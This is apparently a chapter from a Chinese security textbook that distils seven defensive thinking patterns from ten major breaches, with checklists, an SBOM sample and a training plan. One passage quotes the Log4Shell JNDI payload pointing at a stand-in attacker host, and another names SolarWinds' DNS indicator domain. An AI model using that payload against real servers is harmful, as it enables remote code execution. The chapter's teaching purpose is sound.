





## 综合分析：安全思维的共同模式

回顾本章前面十个实战案例——从 Log4Shell 到 SolarWinds Sunburst，从 Heartbleed 到 Colonial Pipeline——表面上看，这些事件的技术细节各不相同：有的是缓冲区溢出，有的是供应链投毒，有的是社会工程。但如果深入分析每一次攻击的根因和防御失败的逻辑，就会发现它们之间存在高度一致的思维模式。

本节的目标不是重复各案例的结论，而是从十个案例中**提取共性**，构建一套可以迁移到任何新场景的安全思维框架。每一个模式都会用具体案例说明"它是什么"、"为什么重要"、"怎么做"。

### 模式总览

下图展示了从十个案例中提炼出的七大安全思维模式及其相互关系：



### 一、零信任原则：不信任任何组件

#### 核心理念

零信任不是一种产品或技术，而是一种**思维起点**：默认状态下，系统中的任何组件——无论是开源库、供应商软件、内部服务、员工账号还是网络边界——都不应被无条件信任。每一次访问、每一个数据处理节点都需要经过验证。

这不是偏执，而是对现实的清醒认知。

#### 案例印证

| 案例 | 信任了什么 | 后果 |
|------|-----------|------|
| Log4Shell | 信任日志库不会执行用户输入 | 全球数百万服务器被远程代码执行 |
| Heartbleed | 信任客户端发送的长度字段 | OpenSSL 内存中的私钥和敏感数据被泄露 |
| SolarWinds | 信任供应商的软件更新渠道 | 18,000+ 组织的网络被国家级攻击者渗透 |
| Equifax | 信任"下次再打补丁也没关系" | 1.47 亿人的个人信息泄露 |
| Twitter 诈骗 | 信任内部员工不会被社工 | 大量高价值账号被劫持用于比特币诈骗 |

所有十个案例中，**至少存在一处未经验证的信任假设**。这个假设可能是技术层面的（"日志库不会解析用户输入"），也可能是流程层面的（"补丁下周再打也行"），也可能是人际层面的（"我们的员工不会上当"）。

#### 为什么难以做到

零信任之所以难以落地，是因为人类天生倾向于信任熟悉的、长期使用的、来自权威来源的事物。这在心理学中叫做**熟悉性偏误**（Familiarity Bias）和**权威偏误**（Authority Bias）。一个使用了五年的开源库、一个合作了三年的供应商、一个工作了十年的同事——我们的直觉告诉我们"它们/他们是安全的"。但安全思维要求我们**用证据代替直觉**。

#### 实操方法

**技术层面的零信任实施清单：**

```text
1. 输入验证
   - 所有外部输入必须经过类型、长度、格式验证
   - 使用白名单而非黑名单策略
   - 元数据（长度字段、Content-Type等）同样需要验证

2. 组件验证
   - 对所有第三方依赖进行 SCA（软件成分分析）
   - 使用 SBOM（软件物料清单）追踪每一个依赖
   - 定期审计依赖的安全公告（CVE）

3. 访问控制
   - 最小权限原则：每个组件只拥有完成工作所需的最小权限
   - 服务间通信需要双向认证（mTLS）
   - 定期轮换凭证和密钥

4. 网络信任
   - 内部网络不等于安全网络
   - 所有服务间通信需要加密和认证
   - 网络分段限制横向移动
```

**思维训练：** 每次评估一个系统时，问自己："如果这个组件已经被攻破了，会发生什么？"如果答案是"整个系统都完了"，那么你的信任过度集中了。

---

### 二、数据流追踪：关注每一个数据节点

#### 核心理念

绝大多数漏洞都与**数据在系统中的流动路径**有关。安全思维要求我们绘制完整的数据流图（Data Flow Diagram, DFD），追踪数据从输入点到最终输出点的每一个处理节点，分析每个节点对数据做了什么、数据可能变成什么。

#### 案例印证

**Log4Shell 的数据流分析：**


开发者只关注了"A → B"这段数据流（用户输入到 Web 应用），认为输入验证和 SQL 注入防护已经足够。但他们忽略了"B → C → D → E → F"这条隐藏的数据流——用户输入通过日志记录进入了 JNDI 解析引擎，最终实现了远程代码执行。

**Heartbleed 的数据流分析：**


问题出在数据流中的**元数据节点**——客户端声称"我要发送 64KB 的数据"，但实际只发送了几个字节。OpenSSL 信任了元数据（长度字段），没有验证它与实际数据的一致性。

#### 追踪数据流的系统方法

**步骤一：绘制数据流图**

对目标系统绘制四类节点：
- **外部实体**（External Entity）：用户、外部系统、API 调用者
- **处理过程**（Process）：对数据进行变换的组件
- **数据存储**（Data Store）：数据库、文件系统、缓存
- **数据流**（Data Flow）：节点间的数据传输

**步骤二：标注信任边界**

在数据流图上标注每一条信任边界（Trust Boundary）——数据从一个信任域进入另一个信任域的位置。信任边界通常出现在：
- 外部输入进入内部处理的位置
- 前端数据传入后端的位置
- 用户空间进入内核空间的位置
- 一个安全域进入另一个安全域的位置

**步骤三：逐节点安全分析**

对每一个处理节点问以下问题：

```text
□ 这个节点接收什么数据？来源是什么？
□ 这个节点对数据做了什么变换？
□ 输出到下一个节点的数据是什么格式？
□ 如果输入是恶意的，这个节点会怎么处理？
□ 这个节点是否需要处理它收到的所有数据？
□ 数据在这个节点是否有存储？存储是否安全？
□ 这个节点到下一个节点的传输是否加密？
```

**步骤四：检查隐式数据流**

最容易被忽略的不是显式数据流（A 调用 B），而是隐式数据流——数据通过间接路径影响系统行为。例如：
- 用户输入 → 日志文件 → 日志分析工具 → 告警系统 → 自动化脚本
- 用户输入 → 配置文件 → 部署工具 → 生产环境

#### 元数据安全

Heartbleed 教会我们的最重要一课是：**元数据也是数据，也需要验证**。

常见的需要验证的元数据包括：

| 元数据类型 | 示例 | 风险 |
|-----------|------|------|
| 长度字段 | Content-Length、自定义长度头 | 缓冲区溢出、信息泄露 |
| 类型标识 | Content-Type、文件扩展名 | 类型混淆攻击 |
| 编码格式 | charset、Transfer-Encoding | 编码绕过、注入攻击 |
| 来源标识 | Origin、Referer、X-Forwarded-For | SSRF、IP欺骗 |
| 序列号/ID | 会话ID、事务ID、请求ID | 重放攻击、IDOR |

---

### 三、假设最坏情况：防御者的悲观主义

#### 核心理念

安全思维的核心不是"希望最好的结果"，而是**假设最坏的情况一定会发生，然后问自己：当它发生时，我的系统还能撑多久？**

这种思维模式要求我们进行三个层次的假设：

1. **假设系统已经被入侵**——不是"如果被入侵"，而是"已经被入侵，只是还没发现"
2. **假设攻击者拥有内部访问权限**——攻击者可能已经控制了某个内部账号或服务
3. **假设安全措施可能失败**——WAF 可能被绕过，IDS 可能漏报，补丁可能没打上

#### 案例印证

**SolarWinds 攻击中的"最坏情况"：**

当 SolarWinds 的更新渠道被攻破时，所有信任该渠道的组织——包括美国财政部、国土安全部、五角大楼——都在不知不觉中安装了含后门的软件。如果这些组织的防御策略基于"供应商更新是安全的"这个乐观假设，那么整个防御体系就形同虚设。

**反之，** 如果采用了最坏情况假设——"即使来自受信任供应商的更新也可能被篡改"——那么就会部署代码签名验证、完整性检查、行为监控等额外防线。

**Colonial Pipeline 攻击中的"最坏情况"：**

Colonial Pipeline 的 IT 网络被勒索软件加密后，公司决定关闭 OT（运营技术）网络。这说明他们的 IT/OT 网络隔离不够充分——如果 OT 网络真的与 IT 网络完全隔离，IT 网络被攻击不会影响 OT 运营。

#### 实操方法：攻击树分析

攻击树（Attack Tree）是实践"假设最坏情况"的有效工具。它从攻击者的目标出发，逆向推导实现目标的所有可能路径。



**构建攻击树的步骤：**

1. 定义攻击目标（根节点）
2. 用"AND"或"OR"关系分解子目标
3. 继续分解，直到叶子节点是具体的、可执行的攻击动作
4. 对每条路径评估可行性和影响
5. 对高风险路径制定防御措施

#### 预设失败的思维训练

**日常练习——"假设已被入侵"演练：**

每周花 30 分钟，选择系统中的一个组件，假设它已经被攻破：

```text
假设场景：我们的数据库服务器已经被攻击者完全控制

影响范围：
- 所有存储的数据已泄露
- 攻击者可以通过数据库访问应用层
- 数据库可能成为攻击其他内部系统的跳板

应对措施：
- 数据是否加密存储？（即使泄露也无法直接读取）
- 数据库与应用服务器之间的网络是否隔离？
- 是否有异常查询行为的监控？
- 数据库凭证是否与其他系统共享？
- 备份是否存储在数据库服务器无法访问的位置？
```

---

### 四、纵深防御：没有银弹

#### 核心理念

纵深防御（Defense in Depth）的核心认识是：**没有任何单一的安全措施是完美的**。每一道防线都可能被突破，但突破多道防线的成本远高于突破一道防线。

这不是"多花钱买更多设备"的简单叠加，而是**在不同层次、不同维度部署互补的安全措施**，使得单一防线的失败不会导致整个系统的沦陷。

#### 案例印证

**Equifax 的纵深防御缺失：**

Equifax 的 Apache Struts 漏洞在被利用前两个月就已经公开。如果他们有以下任何一道防线，攻击可能都不会成功：

| 防御层次 | 应有的措施 | Equifax 的现状 |
|---------|-----------|---------------|
| 补丁管理 | 48小时内打补丁 | 两个月未打补丁 |
| WAF | 部署虚拟补丁 | 未部署 |
| 网络分段 | Web服务器与数据库隔离 | 攻击者直接横向移动 |
| 数据加密 | 敏感数据加密存储 | 明文存储 |
| 监控告警 | 异常数据传输告警 | 大量数据外传未被发现 |

五道防线全部缺失，相当于只靠一把已经生锈的锁保护一座金库。

**Colonial Pipeline 的纵深防御不足：**

OT 网络与 IT 网络之间没有充分隔离，导致 IT 网络被勒索软件加密后，公司不得不关闭整个 OT 网络作为"最后手段"。如果 OT 网络有独立的身份认证、独立的网络路径、独立的安全监控，IT 侧的攻击就不会影响 OT 运营。

#### 纵深防御的层次模型



**关键原则：** 每一层的防御应该**独立于**其他层。如果应用层的 WAF 依赖网络层的防火墙规则才能工作，那么当防火墙规则被修改时，WAF 的保护也同时失效——这不是真正的纵深防御。

#### 实操检查清单

针对一个典型的 Web 应用，纵深防御至少应包含：

```text
第一层 - 边界防御
  □ 网络防火墙（限制入站/出站流量）
  □ WAF（过滤恶意HTTP请求）
  □ DDoS防护

第二层 - 网络隔离
  □ DMZ 隔离前端服务器
  □ 数据库服务器不可直接从外部访问
  □ 管理网络与业务网络分离

第三层 - 主机加固
  □ 操作系统最小化安装
  □ 自动安全更新
  □ EDR 部署
  □ 文件完整性监控

第四层 - 应用安全
  □ 输入验证（白名单）
  □ 参数化查询（防SQL注入）
  □ 输出编码（防XSS）
  □ CSRF 令牌
  □ 会话管理安全

第五层 - 数据保护
  □ 传输加密（TLS 1.3）
  □ 存储加密（AES-256）
  □ 密钥管理（HSM 或 KMS）
  □ 备份加密和离线存储

第六层 - 监控响应
  □ 日志集中收集
  □ SIEM 告警
  □ 事件响应计划
  □ 定期演练
```

---

### 五、持续监控与快速响应

#### 核心理念

安全不是一次性的项目，而是一个**永不停止的过程**。系统在变、威胁在变、攻击手法在变——静态的安全措施很快就会过时。持续监控意味着"始终在看"，快速响应意味着"看到后立即行动"。

#### 案例印证

**延迟发现的代价：**

| 案例 | 漏洞存在时间 | 发现方式 | 损失 |
|------|------------|---------|------|
| Log4Shell | JNDI功能存在10+年 | 安全研究员发现 | 全球性影响 |
| Heartbleed | 2年+ | 安全研究员发现 | 数百万服务器受影响 |
| SolarWinds | 14个月 | FireEye被入侵后发现 | 18,000+组织受影响 |
| Equifax | 攻击者驻留76天 | 外部安全审计发现 | 1.47亿人数据泄露 |

这些数字揭示了一个残酷的现实：**大多数重大安全事件不是被受害者自己发现的，而是被外部人员发现的**。这意味着大多数组织的内部监控体系存在严重盲区。

#### 监控体系的三个维度

**1. 异常行为监控**

不是监控"已知的攻击特征"（签名检测），而是监控"正常基线的偏离"（异常检测）。

```text
需要建立基线的行为：
- 用户登录时间和频率
- 数据库查询模式和数据量
- 网络流量方向和大小
- 进程启动和系统调用模式
- 文件访问和修改模式

需要告警的异常：
- 非工作时间的管理员登录
- 异常大量数据查询或导出
- 向未知IP的大量数据传输
- 异常进程启动（尤其是提权操作）
- 关键配置文件的非授权修改
```

**2. 威胁情报整合**

持续监控不仅关注自己的系统，还需要关注外部威胁情报：

- CVE 公告和安全通告
- 暗网中泄露的凭证
- 行业特定的威胁情报
- 供应链组件的安全状态

**3. 日志分析与关联**

SolarWinds 攻击中，异常的 DNS 查询模式（`[encoded-data].avsvmcloud.com`）如果被及时分析，可能会更早发现后门。但问题是：**日志是有的，分析是没做的**。

有效的日志监控需要：

```text
日志收集 → 集中存储 → 关联分析 → 告警 → 响应

关键要素：
- 集中化：所有系统的日志汇聚到统一平台
- 关联性：跨系统的事件关联（如：同一IP在多系统上出现异常）
- 时效性：实时或近实时分析，而非事后审计
- 完整性：日志不可被攻击者篡改或删除
```

#### 事件响应的核心流程

发现异常只是第一步，快速、有序的响应才能将损失降到最低：



**每个阶段的关键动作：**

- **检测（Detection）**：确认安全事件的真实性，评估初步影响范围
- **分析（Analysis）**：确定攻击向量、受影响系统、数据泄露范围
- **遏制（Containment）**：隔离受影响系统，阻止攻击扩散（Colonial Pipeline 关闭 OT 网络就是一种遏制措施，但代价巨大）
- **根除（Eradication）**：清除攻击者的访问路径、修复漏洞、重置凭证
- **恢复（Recovery）**：从可信备份恢复系统，逐步恢复业务
- **复盘（Lessons Learned）**：分析根因，更新防御措施，改进响应流程

---

### 六、从失败中学习：制度化的改进循环

#### 核心理念

每一个安全事件都是**付了学费的教训**。如果不在事件后进行系统性的分析和改进，这笔学费就白交了。安全思维要求我们将"从失败中学习"从一种偶尔的行为变成一种**制度化的流程**。

#### 案例印证

**NotPetya 的教训是否被充分吸收？**

2017 年的 NotPetya 攻击利用了 EternalBlue 漏洞进行蠕虫式传播。这个漏洞在同年早些时候的 WannaCry 攻击中已经被大规模利用过。如果组织在 WannaCry 之后已经打了 MS17-010 补丁，NotPetya 就无法通过这条路径传播。

事实是：**同一类攻击手法在短时间内被反复利用，而受害者没有从第一次攻击中吸取教训**。

**Log4Shell 反复出现的变种：**

Log4Shell 的基础利用 `${jndi:ldap://attacker.com/x}` 被 WAF 拦截后，攻击者迅速发展出大量绕过变种。如果防御者只针对已知的利用字符串做黑名单过滤，而不从根本上理解漏洞原理（JNDI Lookup），就会陷入"打地鼠"的困境。

#### 根因分析的五个层次

对每一个安全事件，应该进行至少五个层次的根因分析：

```text
第一层：直接原因（What）
  例：攻击者通过 Apache Struts 漏洞入侵了 Equifax 的系统

第二层：技术原因（How）
  例：CVE-2017-5638 允许通过恶意 Content-Type 头执行命令

第三层：流程原因（Why）
  例：补丁管理流程没有强制 SLA，漏洞公告发出两个月后仍未打补丁

第四层：组织原因（Root Cause）
  例：安全团队缺乏推动补丁部署的权限和资源
  例：没有将补丁管理纳入 KPI 考核

第五层：系统性原因（Systemic）
  例：组织文化中安全被视为"成本中心"而非"业务保障"
  例：安全事件的后果没有传导到决策者
```

只有深入到第四层和第五层，才能找到真正可以防止同类事件再次发生的改进措施。

#### 制度化改进的框架



**具体执行步骤：**

1. **事件复盘会**：事件处理完毕后 48 小时内召开，所有相关人员参加
2. **根因分析报告**：使用"五个为什么"或鱼骨图方法，确定根本原因
3. **改进措施清单**：每项改进措施必须有责任人、完成时间、验收标准
4. **知识库更新**：将事件分析和改进措施写入组织的安全知识库
5. **安全培训更新**：将案例纳入安全培训课程
6. **演练验证**：定期模拟同类攻击，验证改进措施是否有效

---

### 七、供应链安全意识：信任但验证

#### 核心理念

现代软件系统的复杂性决定了**你不可能从零开始写所有代码**。每个项目都依赖大量的第三方库、框架、工具和服务。供应链安全不是"不用第三方组件"（那不可能），而是**建立一套验证和监控第三方组件安全性的机制**。

#### 案例印证

供应链攻击在十个案例中出现了三次，是出现频率最高的攻击类型之一：

| 案例 | 攻击路径 | 影响范围 | 发现难度 |
|------|---------|---------|---------|
| SolarWinds（案例三/九） | 篡改软件更新包 | 18,000+ 组织 | 极高（合法签名） |
| NotPetya（案例七） | 篡改会计软件更新 | 全球性（乌克兰起始） | 高（合法渠道分发） |
| Log4Shell（案例一/十） | 利用开源库漏洞 | 数百万应用 | 中（已知CVE） |

前两者是**主动投毒**——攻击者直接篡改了软件供应链；第三种是**被动风险**——使用的开源组件本身存在漏洞。两种情况都需要防御。

#### 供应链安全管理框架

**1. 软件物料清单（SBOM）**

你必须知道自己用了什么。SBOM 是供应链安全的基础：

```json
{
  "components": [
    {
      "name": "log4j-core",
      "version": "2.14.1",
      "supplier": "Apache",
      "hash": "sha256:...",
      "license": "Apache-2.0",
      "vulnerabilities": ["CVE-2021-44228"],
      "last_audit": "2024-01-15"
    }
  ]
}
```

**2. 依赖安全扫描**

```text
工具矩阵：

┌─────────────┬──────────────────┬─────────────────┐
│ 工具         │ 适用场景          │ 检测能力         │
├─────────────┼──────────────────┼─────────────────┤
│ Dependabot   │ GitHub 自动化     │ 已知CVE自动PR    │
│ Snyk         │ CI/CD 集成        │ CVE + 代码修复   │
│ Trivy        │ 容器镜像扫描      │ OS包 + 语言依赖  │
│ OWASP DC     │ 离线分析          │ CVE数据库        │
│ Socket.dev   │ 供应链投毒检测    │ 行为分析         │
└─────────────┴──────────────────┴─────────────────┘
```

**3. 更新验证**

SolarWinds 教训的核心是：**不要因为更新来自"受信任"的渠道就自动接受**。应对措施：

- 验证更新包的数字签名（不仅验证签名本身，还要验证签名者的身份）
- 对关键更新进行完整性校验（哈希值比对）
- 在隔离环境中测试更新后再部署到生产环境
- 监控更新后系统的行为变化（新增网络连接、进程、文件等）

**4. 第三方风险评估**

对关键供应商进行定期安全评估：

```text
评估维度：
□ 供应商的安全认证（ISO 27001、SOC 2 等）
□ 供应商的安全事件历史
□ 供应商的漏洞响应速度
□ 供应商的代码审计实践
□ 数据处理和存储的安全措施
□ 业务连续性计划
□ 合同中的安全条款和SLA
```

---

### 共同模式的交叉分析

以上七个模式不是孤立的，它们在实际安全事件中**相互交织、相互影响**。下表展示了每个案例涉及的模式：

| 案例 | 零信任 | 数据流 | 最坏假设 | 纵深防御 | 持续监控 | 从失败学习 | 供应链 |
|------|--------|--------|---------|---------|---------|-----------|--------|
| Log4Shell | ✓ | ✓ | | | | ✓ | ✓ |
| Heartbleed | ✓ | ✓ | | | | | |
| SolarWinds 供应链 | ✓ | | ✓ | ✓ | ✓ | | ✓ |
| Twitter 诈骗 | ✓ | | | | | | |
| Equifax | ✓ | | ✓ | ✓ | ✓ | ✓ | |
| Colonial Pipeline | | | ✓ | ✓ | ✓ | | |
| NotPetya | | ✓ | ✓ | ✓ | | ✓ | ✓ |
| Capital One | ✓ | ✓ | | ✓ | ✓ | | |
| SolarWinds Sunburst | ✓ | ✓ | ✓ | | ✓ | | ✓ |
| Log4Shell 深度 | ✓ | ✓ | | | | ✓ | ✓ |

**关键发现：**

1. **零信任和数据流**是出现频率最高的两个模式——它们是安全思维的基础
2. **纵深防御**缺失是导致损失扩大的最常见原因——Equifax、Colonial Pipeline、NotPetya 都是因为只有一道防线（或没有）
3. **供应链安全**是新兴的重要模式——随着软件生态的复杂化，供应链攻击的频率和影响都在增加
4. **从失败中学习**是被提及最少的模式——这恰恰说明大多数组织在这方面做得最差

---

### 将模式转化为行动

知道这些模式只是第一步，**将它们内化为本能反应**才是目标。以下是一个 30 天的训练计划：

#### 第一周：零信任与数据流

```text
Day 1-2: 选择一个你负责的系统，绘制完整的数据流图
Day 3-4: 在数据流图上标注所有信任边界
Day 5-6: 对每个信任边界进行安全分析
Day 7:   列出所有未验证的信任假设
```

#### 第二周：假设最坏情况

```text
Day 8-9:  选择系统中最高价值的目标，构建攻击树
Day 10-11: 对每条攻击路径评估现有防御措施
Day 12-13: 进行一次"假设已被入侵"演练
Day 14:   制定改进计划
```

#### 第三周：纵深防御与监控

```text
Day 15-16: 对照纵深防御层次模型，评估当前系统
Day 17-18: 识别防御层次中的空白
Day 19-20: 设计监控告警规则（基于异常行为基线）
Day 21:   测试告警规则的有效性
```

#### 第四周：供应链与持续改进

```text
Day 22-23: 生成项目的 SBOM，识别高风险依赖
Day 24-25: 配置自动化依赖扫描（Dependabot/Snyk）
Day 26-27: 制定事件响应和复盘流程
Day 28-29: 进行一次模拟安全事件演练
Day 30:   总结一个月的收获，制定长期计划
```

---

### 常见误区

在实践这些安全思维模式时，以下误区需要警惕：

**误区一：把零信任等同于"什么都不信任"**

零信任不是瘫痪业务的借口。它的核心是**"信任但验证"**——你可以信任一个组件，但你需要持续验证这个信任是否仍然成立。如果因为"不信任"而拒绝使用任何第三方组件，那不是安全思维，那是因噎废食。

**误区二：过度关注技术防御，忽视人员因素**

十个案例中有三个（Twitter 诈骗、SolarWinds 内部人员、Colonial Pipeline 凭证泄露）涉及人员因素。技术防御再强，如果人员安全意识薄弱，攻击者就会走"人"这条路。

**误区三：把"持续监控"等同于"买更多设备"**

持续监控的核心不是工具，而是**能力**——分析日志的能力、识别异常的能力、快速响应的能力。一个没有安全分析师的 SIEM 系统只是一个昂贵的日志存储系统。

**误区四：事后复盘流于形式**

许多组织的安全事件复盘会只停留在"直接原因"层面（"因为没打补丁"），而不深入分析流程和组织层面的根因。这样的复盘不会带来真正的改进，同类事件迟早会再次发生。

**误区五：认为安全是安全团队的事**

安全是**全员责任**。开发人员需要写安全的代码，运维人员需要正确配置基础设施，管理层需要为安全投入资源，每个员工都需要有安全意识。如果安全只是安全团队的事，那么其他 99% 的人就是攻击者的突破口。

---

### 总结

十个案例，七种模式，一个核心认知：**安全不是产品，不是项目，而是一种思维方式**。

这种思维方式要求我们：
- 对任何未经验证的信任保持警惕（零信任）
- 追踪数据在系统中的完整流动路径（数据流追踪）
- 假设最坏的情况一定会发生并为之准备（假设最坏情况）
- 在多个层次部署互补的安全措施（纵深防御）
- 始终在监控，发现后立即行动（持续监控与响应）
- 每次事件都是一次学习机会，制度化地改进（从失败中学习）
- 信任供应链但必须验证其安全性（供应链安全）

这些模式不需要一次性全部实施。从你最薄弱的环节开始，逐步建立。安全思维的培养是一个渐进的过程——每一次安全事件的分析、每一次系统设计时的安全考量、每一次"如果被攻击了怎么办"的自问，都是在强化这种思维。

最终目标是：让安全思维成为你评估任何系统时的**本能反应**，而不是事后补救的附加工作。
